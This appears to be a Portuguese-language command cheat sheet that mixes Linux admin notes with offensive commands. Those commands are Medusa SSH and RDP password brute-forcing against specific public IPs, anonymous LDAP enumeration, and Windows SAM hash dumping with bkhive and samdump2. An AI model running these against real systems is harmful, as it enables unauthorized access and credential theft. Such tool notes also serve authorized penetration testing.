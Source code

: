 ### No postfix para smart host

    postmap sasl_passwd

    splashy
    /usr/share/splashy/themes/

    splashy_config -s debiansplashy
    update-initramfs -u

### Para ajustar a hora com comando date
    date -s MMDDHHMMAAAA
    date -s 030711112009

    date --set="2014-09-29 16:21:42"
    date 0929162114

### Ajuste de horário no ver.cgi e demais scripts
    find . -name "*.cgi" | xargs -n1 perl -i -ane 's/18000/14400/g; print;'

### Substituição com sed

    cat something |sed s/old/new/g

### Medusa
    medusa -h 189.126.119.15 -M ssh -C 123users -f
    medusa -h 189.126.119.15 -M ssh -U users -P senhas -e s
    medusa -h 192.168.5.100 -u root -P /usr/share/wordlists/sqlmap.txt -M ssh -t 5

### Para ver a base qdo não quer mostar
    ldapsearch -x -b '' -LLL -s base 'objectclass=*' -h 189.19.229.149
    ldapsearch "(objectClass=*)" -x -s base namingContexts -h 189.19.229.149
    ldapsearch -x -b '' 'objectclass=*' -h 189.19.229.149

### Para usar libs dora do padrão
    export LD_LIBRARY_PATH= /dir/das/libs/

### RDP/Rdesktop Password Grinding

    medusa -M wrapper -m TYPE:STDIN -m PROG:rdesktop -m ARGS:"-u %U -p - %H" -H hosts.txt -U users.txt -P passwords.txt

### convert tdbsam para hashs samba
    pdbedit -i tdbsam -e smbpasswd

### Para abrir o SAM

    bkhive system saved-syskey.txt
    samdump2 sam saved-syskey.txt>password-hashes.txt


### The following example shows one way to use rdesktop with the MEDUSA wrapper module:
